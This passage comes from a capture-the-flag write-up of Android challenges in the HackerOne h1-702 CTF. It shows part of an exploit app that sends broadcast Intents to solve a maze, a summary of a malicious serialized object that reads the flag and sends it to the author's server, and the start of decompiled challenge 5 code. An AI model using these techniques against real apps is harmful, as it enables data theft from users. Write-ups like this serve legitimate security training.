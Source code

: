 ```java
                move('j');
            } else {
                move('k');
            }
        }
    }

    public void move(char dir) {
        Intent temp = new Intent();
        temp.putExtra("move", dir);
        temp.setAction("com.hackerone.mobile.challenge4.broadcast.MAZE_MOVER");
        sendBroadcast(temp);
    }


}
```

Please do not judge my variable names ;)

Now we just need to get the almighty breadchris to run our app, and then collect the flag on our server.

![](https://raw.githubusercontent.com/VoidMercy/CTFs/master/h1-702%20CTF/pic22.jpg)

Seems like my assumption of the vulnerability being in the classes that are different was correct :)

### Flag

flag{my_favorite_cereal_and_mazes}

### TL;DR

Broadcast Intents to solve the maze, then pass it a bad Serializable Java object which uses BroadcastAnnouncer to open the flag, read it, and send it to our server.

## Challenge 5

```
To solve this, you need to write your exploit as an APK.
```

Same prompt as challenge 4 >:(

![](https://raw.githubusercontent.com/VoidMercy/CTFs/master/h1-702%20CTF/pic23.jpg)

Luckily this time the code is short. Here it is:

```java
package com.hackerone.mobile.challenge5;

import android.content.Intent;
import android.os.Bundle;
import android.support.v7.app.AppCompatActivity;
import android.webkit.WebSettings;
import android.webkit.WebView;
import android.webkit.WebViewClient;

public class MainActivity
  extends AppCompatActivity
{
  private WebView mWebView;
  
  static
  {
```